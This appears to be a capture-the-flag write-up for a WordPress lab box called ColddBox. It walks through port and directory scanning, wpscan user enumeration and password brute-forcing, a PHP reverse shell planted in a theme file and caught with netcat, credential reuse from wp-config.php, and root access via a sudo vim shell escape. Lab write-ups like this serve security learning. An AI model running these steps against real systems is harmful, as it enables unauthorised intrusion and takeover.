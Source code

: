 #### IP `10.10.142.159`


#### 1. Nmap scan

```
nmap -Pn -A -T4 10.10.142.159                                             
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 11:06 EST
Nmap scan report for 10.10.142.159
Host is up (0.21s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.21 seconds
```

There is only one port opened: `80` 
                                                                       

#### 2. Gobuster scan

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.142.159 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.142.159
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/09 11:08:15 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/hidden (Status: 301)
/index.php (Status: 301)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-includes (Status: 301)
/xmlrpc.php (Status: 200)
===============================================================
2021/01/09 11:10:45 Finished
===============================================================
```

Website seems to be a Wordpress, so next step would be running `wpsacan` to get a users list and afterwards bruteforce a password.


#### 3. WPS Scan

Firstly, I run:

`wpscan --url http://10.10.142.159 -e u`

which gives three users: c0ldd, philip, hugo.

Then I run brute scan for these users and after some time I get a pass for `c0ldd`

```                                                                                                               
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://10.10.142.159 -U c0ldd, hugo, philip -P /usr/share/wordlists/rockyou.txt                               127 ⨯


[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                         
Trying c0ldd / 9876543210 Time: 00:04:59 <                                    > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0ldd, Password: *********
```


#### 4. Wordpress access

I login as `c0ldd` and edt `twentyfifteen` theme for pentest monkey reverse php in order to get a shell.

I go to Appearance -> Editor -> type in and upload modified script. Afterwards, with netcat `sudo nc -lvnp 4444` and access this link in browser:

`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`

and bingo:

```
──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444                     
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.6.46.150] from (UNKNOWN) [10.10.142.159] 54280
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:19:59 up 14 min,  0 users,  load average: 0.01, 0.44, 0.54
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
www-data@ColddBox-Easy:/$ whoami
whoami
www-data
www-data@ColddBox-Easy:/$ 
```


#### 5. Enumeration

As long as there is Wordpress involved, user / pass is usually in `wp-config.php` so  I access `/var/www/html` and open it:

```
www-data@ColddBox-Easy:/$ cd /var/www/html
cd /var/www/html
www-data@ColddBox-Easy:/var/www/html$ ls -lah
ls -lah
total 192K
drwxr-xr-x  6 root     root     4.0K Oct 14 19:42 .
drwxr-xr-x  3 root     root     4.0K Oct 14 19:41 ..
drwxr-xr-x  2 root     root     4.0K Oct 19 18:49 hidden
-rw-r--r--  1 www-data www-data  418 Sep 25  2013 index.php
-rw-r--r--  1 www-data www-data  20K Sep 24 17:07 license.txt
-rw-r--r--  1 www-data www-data 7.1K Sep 24 17:07 readme.html
-rw-r--r--  1 www-data www-data 6.3K Sep 24 17:07 wp-activate.php
drwxr-xr-x  9 www-data www-data 4.0K Dec 18  2014 wp-admin
-rw-r--r--  1 www-data www-data  271 Jan  8  2012 wp-blog-header.php
-rw-r--r--  1 www-data www-data 5.1K Sep 24 17:07 wp-comments-post.php
-rw-r--r--  1 www-data www-data 2.7K Sep  9  2014 wp-config-sample.php
-rw-rw-rw-  1 www-data www-data 3.0K Oct 14 19:42 wp-config.php
drwxr-xr-x  6 www-data www-data 4.0K Oct 19 18:44 wp-content
-rw-r--r--  1 www-data www-data 2.9K May 13  2014 wp-cron.php
drwxr-xr-x 12 www-data www-data 4.0K Dec 18  2014 wp-includes
-rw-r--r--  1 www-data www-data 2.4K Oct 25  2013 wp-links-opml.php
-rw-r--r--  1 www-data www-data 2.7K Jul  7  2014 wp-load.php
-rw-r--r--  1 www-data www-data  33K Sep 24 17:07 wp-login.php
-rw-r--r--  1 www-data www-data 8.3K Sep 24 17:07 wp-mail.php
-rw-r--r--  1 www-data www-data  11K Jul 18  2014 wp-settings.php
-rw-r--r--  1 www-data www-data  25K Nov 30  2014 wp-signup.php
-rw-r--r--  1 www-data www-data 4.0K Nov 30  2014 wp-trackback.php
-rw-r--r--  1 www-data www-data 3.0K Feb  9  2014 xmlrpc.php
```

Inside a file I find a password for database:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'XXXXXXXXXX');
```

I try to login as `c0ldd` using that password and apparently it works. In real life having same password for database and user would be a very big mistake.

```
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd 
su - c0ldd
Password: XXXXXXX

c0ldd@ColddBox-Easy:~$ whoami
whoami
c0ldd
c0ldd@ColddBox-Easy:~$ 
```

It is possible to get `user.txt` now:

```
c0ldd@ColddBox-Easy:~$ ls -al
ls -al
total 24
drwxr-xr-x 3 c0ldd c0ldd 4096 oct 19 18:51 .
drwxr-xr-x 3 root  root  4096 sep 24 16:52 ..
-rw------- 1 c0ldd c0ldd    0 oct 19 18:51 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 sep 24 16:52 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd    0 oct 14 13:28 .bashrc
drwx------ 2 c0ldd c0ldd 4096 sep 24 16:53 .cache
-rw-r--r-- 1 c0ldd c0ldd  655 sep 24 16:52 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 sep 24 16:53 .sudo_as_admin_successful
-rw-rw---- 1 c0ldd c0ldd   53 sep 24 18:22 user.txt
c0ldd@ColddBox-Easy:~$ cat user.txt
cat user.txt
XXXXXXXX
```

#### Escalating to root

A very good practise is to always check what rights have a normal user, so:

```
c0ldd@ColddBox-Easy:~$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

c0ldd can execute vim, ftp and chmod as root. This means we have three ways to escalate to root, I choose vim.

There is a big list of commands for escalation caleld GTFO Bins, so for vim:

`https://gtfobins.github.io/gtfobins/vim/`

I should type:

`sudo -u root /usr/bin/vim -c ':!/bin/sh'`

Which makes me root as suspected:

```
:!/bin/sh
# whoami
whoami
root
# cd /root
cd /root
# ls -lah
ls -lah
total 32K
drwx------  4 root root 4,0K sep 24 18:52 .
drwxr-xr-x 23 root root 4,0K sep 24 16:47 ..
-rw-------  1 root root   10 oct 19 18:53 .bash_history
-rw-r--r--  1 root root    0 oct 14 13:28 .bashrc
drwx------  2 root root 4,0K sep 24 18:52 .cache
-rw-------  1 root root  220 sep 24 17:02 .mysql_history
drwxr-xr-x  2 root root 4,0K sep 24 16:54 .nano
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-rw-r--r--  1 root root   49 sep 24 18:23 root.txt
# cat root.txt  
cat root.txt
XXXXXXXXXXXXXXXXXX
```

